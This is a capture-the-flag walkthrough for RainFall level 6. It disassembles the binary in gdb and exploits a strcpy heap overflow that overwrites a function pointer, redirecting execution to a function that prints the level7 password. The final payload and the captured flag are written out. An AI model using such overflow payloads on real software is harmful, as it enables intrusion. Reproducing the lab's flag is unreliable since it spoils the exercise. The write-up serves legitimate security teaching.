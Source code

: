 # Level 6

Once logged in, you will see a binary `level6`.

```
$ ssh level6@localhost -p 4444
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level6@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
level6@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```

Let's run this and see what this does.

```
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$
level6@RainFall:~$ ./level6 adsfasdfa
Nope
```

Now, finally, it does something different from last levels.

Taking a look at the binary, there are three functions we want to look at.

```
gdb-peda$ info functions
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
gdb-peda$
```

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   ebp
   0x0804847d <+1>:	mov    ebp,esp
   0x0804847f <+3>:	and    esp,0xfffffff0
   0x08048482 <+6>:	sub    esp,0x20
   0x08048485 <+9>:	mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>		; allocates 64 bytes
   0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>		; allocates 4 bytes
   0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:	mov    edx,0x8048468				; address of m
   0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:	mov    DWORD PTR [eax],edx			; eax = edx -> malloc(4) = m;
   0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:	add    eax,0x4
   0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:	mov    edx,eax
   0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>		; strcpy of buf (= malloc(64)) to m
   0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:	call   eax							; call buf
   0x080484d2 <+86>:	leave
   0x080484d3 <+87>:	ret
End of assembler dump.
```

```
gdb-peda$ disass m
Dump of assembler code for function m:
   0x08048468 <+0>:	push   ebp
   0x08048469 <+1>:	mov    ebp,esp
   0x0804846b <+3>:	sub    esp,0x18
   0x0804846e <+6>:	mov    DWORD PTR [esp],0x80485d1		; 0x80485d1:	 "Nope"
   0x08048475 <+13>:	call   0x8048360 <puts@plt>			; puts "Nope"
   0x0804847a <+18>:	leave
   0x0804847b <+19>:	ret
End of assembler dump.
```

```
gdb-peda$ disass n
Dump of assembler code for function n:
   0x08048454 <+0>:	push   ebp
   0x08048455 <+1>:	mov    ebp,esp
   0x08048457 <+3>:	sub    esp,0x18
   0x0804845a <+6>:	mov    DWORD PTR [esp],0x80485b0		; 0x80485b0:	 "/bin/cat /home/user/level7/.pass"
   0x08048461 <+13>:	call   0x8048370 <system@plt>		; system(0x80485b0) = system("/bin/cat /home/user/level7/.pass")
   0x08048466 <+18>:	leave
   0x08048467 <+19>:	ret
End of assembler dump.
```

By analyzing the assembly (and decompiled C), we can tell the main function allocates memory on the heap with `malloc`, and calls function `m`. Our goal in this exploit is to call `n` instead.

Remember the function `strcpy` has vulnerability which enables us to change a program's functionality through a buffer overflow.

Here we made the correct assumption that `malloc` stores values mostly next to one another plus some overhead. (We could have checked with GDB, but this worked first.) We found the correct memory location by writing a bit more to the copied argument than there was space available, thus overwriting the function pointer.

```
level6@RainFall:~$ ./level6 $(python -c "print 'B'*64")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*65")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*66")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*67")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*68")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*69")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*70")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*71")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*72")
Segmentation fault (core dumped)
```

Now we just add on our desired value to be called, and voilà our completed exploit. (Note that it crashes at `72` bytes because the `'\0'` overwrites part of the string we're interested in, which is why we're not modifying the below exploit to have an offset of `71`.)

```
level6@RainFall:~$ ./level6 $(python -c "print 'B'*72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
